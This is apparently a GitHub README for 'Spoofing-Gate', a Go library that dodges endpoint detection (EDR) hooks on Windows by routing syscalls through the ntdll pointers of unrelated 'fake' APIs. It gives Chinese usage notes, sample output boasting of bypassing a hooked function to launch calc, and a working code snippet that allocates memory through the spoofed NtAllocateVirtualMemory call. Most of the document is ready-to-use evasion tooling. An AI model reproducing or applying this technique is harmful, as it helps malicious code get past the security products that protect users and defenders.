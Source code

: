 # Spoofing-Gate
(Hellsgate|Halosgate|Tartarosgate)+Spoofing-Gate. Ensures that all systemcalls go through ntdll.dll

https://github.com/timwhitez/Doge-Gabh


inspired by Recycled Gate

https://github.com/thefLink/RecycledGate


exclude apis in https://github.com/Mr-Un1k0d3r/EDRs


- get sysid from "X"gate

- use Spoofing-Gate to get the Spoofing funtion pointer

- call the pointer

- Recover

```
> .\SpfGate.exe
messPtr:0x7ff91ee2e570
Messed up the NTCreateThreadEx function, gl launching calc!
NtAllocateVirtualMemory|(fake)NtQueryInformationTransactionManager: 0x7ff91ee2f710
NtProtectVirtualMemory|(fake)NtEnumerateBootEntries: 0x7ff91ee2e910
You seem to have bypassed a hooked function... congrats (sys ID is: 193)
NtCreateThreadEx|(fake)NtCallbackReturn: 0x7ff91ee2ce00

```

```

方法使用详情：
r1,e := spfgate.SpfGate(sysid,tmplist)

sysid为目标api的sysid值
tmplist是需要排除的api名字（部分api调用会报错或者冲突）
r1为结构体

type SPFG struct {
	Fakename	string //随机api的名字
	Pointer		uintptr //api地址
	Fakeid		uint16 //替换后的sysid
	Realid 		uint16	//替换前的sysid
}

结构体有个Recover()函数
用来恢复api的原sysid
r1.Recover()

执行的时候就使用syscall执行r1.pointer


```



```
//get sysid from "X"gate
alloc,e := gabh.MemHgate(str2sha1("NtAllocateVirtualMemory"),str2sha1)
	if e != nil {
		panic(e)
	}
  
var tmplist []string
tmplist = append(tmplist,[]string{"NtAllocateVirtualMemory"}...)


//use Spoofing-Gate to get the Spoofing funtion pointer
alloctmp,e := spfgate.SpfGate(alloc,tmplist)
if e != nil{
  panic(e)
}
tmplist = append(tmplist,alloctmp.Fakename)
fmt.Printf("NtAllocateVirtualMemory|(fake)")
fmt.Printf(alloctmp.Fakename)
fmt.Printf(": 0x%x\n",alloctmp.Pointer)

//call the pointer
r1, _,_ := syscall.Syscall6(
		alloctmp.Pointer, //ntallocatevirtualmemory
		6,
		handle,
		uintptr(unsafe.Pointer(&baseA)),
		0,
		uintptr(unsafe.Pointer(&regionsize)),
		uintptr(memCommit|memreserve),
		syscall.PAGE_READWRITE,
	)
	if r1 != 0{
		fmt.Printf("1 %x\n", r1)
		return
	}
	
	
//Recover
alloctmp.Recover()


```



